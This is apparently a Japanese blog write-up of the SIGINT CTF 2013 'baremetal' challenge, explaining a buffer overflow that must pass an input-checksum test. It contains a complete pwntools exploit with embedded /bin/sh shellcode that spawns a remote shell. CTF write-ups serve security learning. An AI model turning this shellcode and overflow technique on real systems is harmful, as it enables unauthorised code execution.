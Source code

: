 ```yaml
---
layout: post
alias: "/blog/2016/03/31/sigint-ctf-2013-baremetal/"
date: 2016-03-31T04:41:15+09:00
tags: [ "ctf", "writeup", "pwn", "sigint-ctf", "bof" ]
"target_url": [ "http://shell-storm.org/repo/CTF/SIGINT-2013/pwning/baremetal-100/" ]
---
```


# SIGINT CTF 2013 baremetal

## 解法

``` sh
$ file baremetal
baremetal: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, stripped

$ checksec --file baremetal
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   baremetal

$ ldd baremetal
    not a dynamic executable

$ ll baremetal
-rwxr-xr-x 1 user user 684 Jul  8  2013 baremetal
```

-   直接`int 0x80`する小さなバイナリ
-   入力を読み、この文字列がチェックを通過すれば、bss領域にあるコードを実行する

<!-- -->

-   入力にbofがあって、実行されるコードの先頭$1$byteを上書き可能
-   チェックは、各文字のascii codeの総和が0x1ee7であるかどうか、である
    -   入力が短すぎてもだめだが、これは容易に無視できる
    -   nullまでの総和であるので、bofすると考慮すべき文字が追加されるので注意
-   実行されるコードというのは`\x47\x47\xff\xe7` `inc edi; inc edi; jmp edi`
    -   bufferのaddressは`eax`に入っている
    -   `\x97` `xchg edi, eax`を使う
    -   以下を適当に叩いて探した どうせ高々$256$通りである

``` sh
$ echo -n $'\x97\x47\xff\xe7\0\0\0\0' > a && objdump -D a -b binary -mi386 -M intel
```

## 実装

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()
context.log_level = 'debug'

read_len = 0x3d
funptr = "\x47\x47\xff\xe7"
cmp_sum = 0x1ee7

# http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = \
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69" + \
    "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
xchg_edi_eax = "\x97"

payload = ["\xff", shellcode, xchg_edi_eax]
l = read_len - len(''.join(payload))
s = [1] * l
i = 0
measure = lambda: sum(map(ord,''.join(payload))) + sum(s) + sum(map(ord,funptr[1:]))
while measure() < cmp_sum:
    d = cmp_sum - measure()
    s[i] += min(255 - 1, d)
    i += 1
payload.insert(2, ''.join(map(chr,s)))
payload = ''.join(payload)

log.info(repr(payload))
log.info(str(sum(map(ord,payload))))

p = remote(args.host, args.port)
p.recvline()
p.send(payload)
time.sleep(0.2)
p.sendline('id')
p.interactive()
```
